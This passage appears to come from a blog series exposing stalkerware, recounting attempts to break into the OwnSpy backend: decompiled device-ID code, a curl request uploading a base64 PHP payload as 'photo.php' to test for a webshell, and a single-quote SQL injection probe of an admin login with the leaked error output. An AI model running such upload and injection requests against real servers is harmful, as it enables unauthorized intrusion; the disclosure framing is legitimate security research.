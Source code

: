 ### enumeration?

this obviously invites simple enumerations over all device ids, a quick look at the android app source code (decompiled using [jadx](https://github.com/skylot/jadx)) however shows that the ID is generated by creating an md5 hash of one of the following sources,

```java
String str2 = Build.SERIAL;
String macAddress = ((WifiManager) getApplicationContext().getSystemService("wifi")).getConnectionInfo().getMacAddress();
String string = Settings.Secure.getString(getApplicationContext().getContentResolver(), "android_id");
String str3 = ((TelephonyManager) systemService).getDeviceId();
```

which is way too much entropy for simple enumeration, all of these parameters are way too complex to enumerate on their own.

### webshell?

the hunt continues. once again, as so often with the badly coded php backends to stalkerware apps, the photo upload endpoint allows for arbitrary uploads, so will a webshell work (see the [previous entry in this series](/posts/fuckstalkerware-2/) for more on webshells)?

```bash
curl 'https://6287970dd9.era3000.com/server/?cmd=newjson&id=d41d8cd98f00b204e9800998ecf8427e&v=798e70a44d93b2fe85e1aa8a3049bfb0' --data '@payload.json' 
```

```json
// payload.json:
{ 
  "type": "photo", 
  "content": [{"data": "PD9waHAgcGhwaW5mbygpOwo=", "name": "photo.php", "encrypted": 0}] 
}
```

while the upload succeeded, this didn't work out either, as photos are served to the dashboard via a php script rather than directly from their path, and unless they could've guessed the path to which images are uploaded to there wasn't any way to get a webshell to execute either.

### sql injection?

after none of the above attempts had worked and nothing else stuck to the data apis or the user dashboard my source proceeded to take a look at further ownspy infrastructure. which is how they stumbled onto an interesting seeming subdomain with an expired and invalid certificate, `webdetective.era3000.com` - some sort of admin panel.

a basic attempt at [sql injection](https://en.wikipedia.org/wiki/SQL_injection) (sqli) by submitting a single quote in the login form yielded the following:

```bash
curl -k "https://webdetetive.era3000.com/login.php" --data "email=te'st@gmail.com&password=test"
```
```html
[...]
  <br />
  <b>Fatal error</b>:  Uncaught TypeError: Argument 1 passed to mysql_fetch_assoc() must be an instance of mysqli_result, boolean given, called in /home/ownspy/admin_saferespiao/login.php on line 7 and defined in /home/ownspy/mysql.php:122
  Stack trace:
  #0 /home/ownspy/admin_saferespiao/login.php(7): mysql_fetch_assoc(false)
  #1 {main}
    thrown in <b>/home/ownspy/mysql.php</b> on line <b>122</b><br />
[...]
```
